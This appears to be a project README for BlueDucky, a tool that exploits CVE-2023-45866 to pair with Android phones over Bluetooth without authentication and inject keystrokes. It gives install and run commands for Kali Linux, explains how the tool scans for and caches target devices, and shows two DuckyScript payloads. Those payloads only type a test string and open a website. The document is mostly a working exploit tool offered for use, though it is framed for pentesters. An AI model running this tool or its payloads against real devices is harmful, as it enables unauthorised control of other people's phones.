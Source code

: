 BlueDucky (Android) 🦆
Ported & Optimized for Kali Linux by Ekoahamdutivnasti

Visit us: 🌐 https://ekoahamdutivnasti.com

🔹 Credits to the original contributors:

saad0x1 on GitHub

spicydll on GitHub

<p align="center"> <img src="./images/duckmenu.png"> </p>
🚨 CVE-2023-45866 Exploitation via DuckyScript
🔓 Unauthenticated Bluetooth Peering → Remote Code Execution (HID Emulation)

This tool is based on the vulnerability reported by Marc Newlin under CVE-2023-45866.

⚠️ This version has been ported and optimized specifically for Kali Linux by Ekoahamdutivnasti, to ensure better stability and seamless integration in pentesting environments.

<p align="center"> <img src="./images/BlueDucky.gif"> </p>
🧠 What is BlueDucky?
BlueDucky is a Bluetooth HID injection tool that allows you to:

📡 Reconnect with previously paired Bluetooth devices (even if not visible).

📂 Auto-save and reuse scanned devices.

💌 Execute HID keystroke payloads via DuckyScript.

✅ Tested and stable on Raspberry Pi 4
✅ Verified against multiple Android phones
⚠️ Note: Vodafone NZ brand may behave differently

🔧 Installation on Kali Linux
1️⃣ Update your system
bash
Copy
Edit
sudo apt-get update && sudo apt-get -y upgrade
2️⃣ Install dependencies
bash
Copy
Edit
sudo apt install -y bluez-tools bluez-hcidump libbluetooth-dev \
                    git gcc python3-pip python3-setuptools \
                    python3-pydbus
3️⃣ Install pybluez from source
bash
Copy
Edit
git clone https://github.com/pybluez/pybluez.git
cd pybluez
sudo python3 setup.py install
4️⃣ Build bdaddr utility
bash
Copy
Edit
cd ~/
git clone --depth=1 https://github.com/bluez/bluez.git
gcc -o bdaddr ~/bluez/tools/bdaddr.c ~/bluez/src/oui.c -I ~/bluez -lbluetooth
sudo cp bdaddr /usr/local/bin/
▶️ How to Run BlueDucky
bash
Copy
Edit
git clone https://github.com/pentestfunctions/BlueDucky.git
cd BlueDucky
sudo hciconfig hci0 up
python3 BlueDucky.py
⚙️ How It Works
You’ll be prompted for a target MAC address.

Leave it blank to start auto-scanning.

Discovered devices are stored in known_devices.txt.

If that file exists, it’s used as a device cache.

The script then runs instructions from payload.txt.

On success, it auto-connects and executes keystrokes.

💻 DuckyScript Payload Examples
🧪 Still under development — suggestions welcome!

📜 Basic Input Demo
bash
Copy
Edit
REM Type a string
STRING ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()_-=+\|[{]};:'",<.>/?
GUI D
🧭 Launch Private Mode to hackertyper.net
bash
Copy
Edit
REM Open hackertyper.net in incognito
DELAY 200
ESCAPE
GUI d
ALT ESCAPE
GUI b
DELAY 700
PRIVATE_BROWSER
DELAY 700
CTRL l
DELAY 300
STRING hackertyper.net
DELAY 300
ENTER
DELAY 300
🛡️ Notes from Ekoahamdutivnasti
✅ Stable & fully optimized for Kali Linux

🧠 Ideal for pentesters and researchers

🐧 Works great on Kali 2023.x, Raspberry Pi, and similar platforms

🌐 Stay Connected
👨‍💻 Ported and maintained for Kali by Ekoahamdutivnasti
🔗 Visit us: https://ekoahamdutivnasti.com


